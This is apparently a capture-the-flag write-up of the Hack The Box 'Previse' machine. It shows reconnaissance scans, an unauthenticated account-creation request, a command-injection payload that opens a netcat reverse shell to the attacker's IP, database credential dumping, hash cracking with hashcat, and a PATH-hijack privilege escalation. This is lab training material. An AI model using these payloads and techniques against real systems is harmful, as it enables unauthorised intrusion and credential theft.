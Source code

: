 > Author: **[m4lwhere][author-profile]**

## Discovery

Alright, let's get start with nmap and gobuster:

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
```

```bash
gobuster dir -u 10.10.11.104 -w /usr/share/wordlists/discovery/raft-small-directories.txt -x php
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.104/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.104/js/] 
/logout.php           (Status: 302) [Size: 0] [--> login.php]                 
/login.php            (Status: 200) [Size: 2224]                              
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 6072] [--> login.php]              
/logs.php             (Status: 302) [Size: 0] [--> login.php]                 
/config.php           (Status: 200) [Size: 0]                                 
/index.php            (Status: 302) [Size: 2801] [--> login.php]              
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]              
/nav.php              (Status: 200) [Size: 1248]                              
/header.php           (Status: 200) [Size: 980]                               
/footer.php           (Status: 200) [Size: 217]                               
/status.php           (Status: 302) [Size: 2970] [--> login.php]              
/server-status        (Status: 403) [Size: 277] 
```

Browsing the website leads to a login page. Since it is hardened agains SQLi
(Sqlmap fails too) and we have no clues yet, we need to find another way in.

Going over all the discovered pages, they all redirect to `login.php` except
`config.php` and `accounts.php`.

Actually Burpsuite captures a response body on `accounts.php`, before jumping
to the login page.

This page allows to create a new account, there's a html form for user input.
We can directly send a POST request with the matching parameters:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.104' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'Accept-Encoding: gzip, deflate' \
    -b $'PHPSESSID=as7pqom59hgv01jml1bnapfvap' \
    --data-binary $'username=heyhey&password=lolololololo&confirm=lolololololo' \
    $'http://10.10.11.104/accounts.php'
```

Which creates a new user: we can now log on the webpage.

## Break-in

Once logged in, the "files" tab immediately draws attention:

- there's a "siteBackup.zip", which can be downloaded
- it is possible to upload files
- the file IDs are sequential: `http://10.10.11.104/download.php?file=32`

While it is tempting to upload a reverse shell, it would end-up stored in
the database, which prevents us to browse / execute it.

Rather, the backup contains the PHP source files of the site, full of informations!

Most interesting is `logs.php`: it uses exec to launch a python script with
user input as argument!

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Normally the logs page is queried by `file_logs.php` via POST. Using Burpsuite,
we can submit the form and capture the request.

Then we inject a reverse shell in the POST parameter:

```bash
curl -i -s -k -X $'POST' --compressed \
    -H $'Host: 10.10.11.104' \
    -H $'Content-Type: application/x-www-form-urlencoded' \
    -H $'Accept-Encoding: gzip, deflate' \
    -b $'PHPSESSID=as7pqom59hgv01jml1bnapfvap' \
    --data-binary $'delim=;nc 10.10.16.30 9876 -e /bin/bash' \
    $'http://10.10.11.104/logs.php'
```

Spawn a TTY:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

We have a proper shell, as "www-data".

## Lateral movement

As www-data, we can browse the current site's source files and database.

Indeed, the backup has the database credentials in `config.php`:

```php
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
```

Which can be used with the client:

```bash
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'show tables;'
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'show columns from accounts;'
mysql -D'previse' -u'root' -p'mySQL_p@ssw0rd!:)' -e'select username,password from accounts;'
```

To find:

```
+----------+------------------------------------+
| username | password                           |
+----------+------------------------------------+
| m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. |
| heyhey   | $1$🧂llol$QeuLTO6nKr3dEF2IutDLL0 |
+----------+------------------------------------+

```

`accounts.php` is in charge of creating new users and hashing their password: 

```php
$hash = crypt($password, '$1$🧂llol$');
```

The PHP documentation says that a salt starting with "$1" returns a MD5 hash.
The corresponding code in Hashcat is 500:

```bash
# $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
hashcat -a 0 -m 500 m4lwhere.hash /usr/share/wordlists/passwords/rockyou.txt
```

These credentials allow to connect as "m4lwhere" via ssh.

## Escalation

m4lwhere can execute `/opt/scripts/access_backup.sh` with root privileges. In
turn, it executes the following commands:

```bash
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

Here, we can alter the `$PATH` variable and point to a malicious date binary: 

```bash
echo $'head -n1 /root/root.txt' > /tmp/date
chmod +x /tmp/date
PATH=/tmp:$PATH sudo /opt/scripts/access_backup.sh
ls -lah /var/backups/
```

The backup files are named after the root flag!

[author-profile]: https://app.hackthebox.eu/users/107145
